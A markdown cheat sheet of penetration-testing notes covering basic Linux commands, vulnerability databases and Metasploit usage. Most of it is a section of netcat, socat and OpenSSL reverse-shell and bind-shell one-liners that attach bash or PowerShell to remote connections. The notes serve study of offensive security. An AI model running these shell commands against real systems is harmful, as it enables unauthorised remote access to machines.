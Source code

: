 # General

## Commands
* [grep](https://tldr.ostera.io/grep)
* `chmod +x ./<filename>` : Make a file executable
* `wget <link location>`
* `uname` : Print certain system information
* `python3 -m http.server <port>`: Start up a simple local HTTP server
  * `-m`: run library module as a script

## Vulnerability Databases
* [National Vulnerability Database](https://nvd.nist.gov/vuln/full-listing)
* [Exploit-DB](https://www.exploit-db.com/)
* [Rapid7](https://www.rapid7.com/db/)
* [GTFOBins](https://gtfobins.github.io/): Bypass local security restrictions

## Metasploit
* `msfconsole`: The command line interface
* `set <option> <value>`: Set the given option to value
* `history`: See commands typed earlier
* `search <options> <keywords>:<value>`
* `use <module>`
* `info`
* `back`: Leave the context
* `show options`
* `setg`: Set values that will be used for all modules
* `exploit` or `run`
* Ctrl+Z: Make the session into a background task
* Metasploit Database
  * First, start a database
  * `msfdb init`
  * `db_status`: Check the database status
  * `workspace`: List available workspaces
  * `workspace -a/-d <name>`: Add/Delete a workspace
  * `db_nmap`: The nmap results will be stored to the database
  * `hosts` or `services`: List host and service information of the target system
  * `hosts -R`: Once host information is stored in database, use this command to add the value to the RHOSTS parameter

## Reverse Shell and Bind Shell
* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* Reverse Shell
  * The attacking machine opens a listner and the target machine connects back to it
* Bind Shell
  * The target machine opens a listner and the attacking machine connects to it
* Netcat
  * `nc -lvnp <port>`: Netcat listening on a port
    * `-l`: Be a listener
    * `-v`: Verbose
    * `-n`: Don't resolve host names or use DNS
    * `-p`: Port specification
  * `nc <ip> <port>`
  * `nc -lnvp <port> -e /bin/bash`: A bind shell listener
  * `nc <ip> <port> -e /bin/bash`: Connect to reverse shell
* Netcat Shell Stabilisation
  * Python
    * `python -c 'import pty;pty.spawn("/bin/bash")'`: Spawn a better featured bash shell
    * `export TERM=xterm`: Gives access to term commands such as `clear`
    * Ctrl+Z + `stty raw -echo; fg`: It turns off our own terminal echo (which allows pressing tab, arrow keys, and Ctrl+C), then foreground the shell 
  * `rlwrap nc -lvnp <port>`
* Socat
  * `socat TCP-L:<port> -`: Socat listening on a port
  * `socat TCP:<ip>:<port> EXEC:powershell.exe,pipes`: Connect back to socat listener on Windows
    * pipes forces powershell to use Unix style standard input and output
  * `socat TCP:<ip>:<port> EXEC:"bash -li"`: Connect back to socat listener on Linux
  * `socat TCP-L:<port> EXEC:powershell.exe,pipes`: Bind shell on Windows
  * `socat TCP-L:<port> EXEC:"bash -li"`: Bind shell on Linux
  * `socat TCP:<TARGET-IP>:<TARGET-PORT> -`: Connect to bind shell
  * ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```: A fully stable tty Linux reverse shell
  * `socat TCP:<ip>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`: Special command to connect to the stable reverse shell
  * Encrypted shells
    * `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`: Generate a certificate
    * `cat shell.key shell.crt > shell.pem`: Merge the 2 files into a simple .pem file
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`: Reverse shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 EXEC:/bin/bash`: Connect back to reverse shell
    * `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`: Bind shell listener
    * `socat OPENSSL:<ip>:<port>,verify=0 -`: Connect to bind shell
